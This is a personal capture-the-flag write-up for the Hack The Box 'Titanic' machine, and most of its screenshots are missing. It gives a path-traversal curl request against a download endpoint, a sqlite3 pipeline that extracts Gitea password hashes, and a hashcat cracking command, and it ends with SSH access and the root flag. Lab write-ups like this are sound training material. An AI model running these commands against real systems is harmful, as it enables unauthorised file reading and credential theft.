


Titanic is easy linux machine. 

### Reconnaissance

Nmap


Two ports are open port 22 ssh and port 80 http

the ip is redirected to [http://titanic.htb](http://titanic.htb) I add the domain to /etc/hosts file


version and application use for the website


two hidden directories found


there is noting 


I ask ai to analyze the nikto scan and above image are the result I got 

some of them make sense but not all of them 

checking the functionalities of the main page of titanic 


submit the details


there is program running in the background when I submit the detail

a request to download file 


I nearly forgot the important step to perform which is subdomain enumeration


there is a subdomain called “dev”


on the background I run the command to find the hidden directories 


when I was just checking the functionality of the website I got this code 


I really need to try this 

```bash
curl -X GET "http://titanic.htb/download?ticket=../../../../etc/passwd"
```


from the above information:

- a normal user “developer”
- user developer has a home directory(/home/developer) and a **bash shell**
- there is another user called “_laurel” and no login shell

[Installation with Docker | Gitea Documentation](https://docs.gitea.com/installation/install-with-docker)

gitea.com


**point to remember:**

- the directory name will be gitea before installing gitea

**Now what’s next?**

### Enumeration

- there is download endpoint which sends request to serve and we can take advantage of it
- we found out the user “developer”
- the developer is using gitea

bringing the info together 




we know that there is a user “developer” and those endpoint can be used by the developer 

we can take advantage of download endpoint to get this file

```bash
curl --path-as-is http://titanic.htb/download?ticket=../../home/developer/gitea/
data/gitea/conf/app.ini
```


this subdomain gives nothing, just the main page of titanic


there is another file called “gitea.db” 

lets download it


**what I can do with this file?**


how to extract hash from gitea.db

[HTB: Compiled](https://0xdf.gitlab.io/2024/12/14/htb-compiled.html)

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; 
do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64);
 salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64);
  name=$(echo $data | cut -d'|' -f 3); 
  echo "${name}:sha256:50000:${salt}:${digest}"; done | te
```


to crack the hash it is in the above blog

```bash
hashcat gitea.hashes rockyou.txt --user 
```


developer’s password

got the user “developer” password. there is we found ssh port 22 open in the nmap scan

ssh login 


ssh login


login as developer

### Lateral Movement


When I was just seeing around the directories I just got the root flag


Machine Pwned!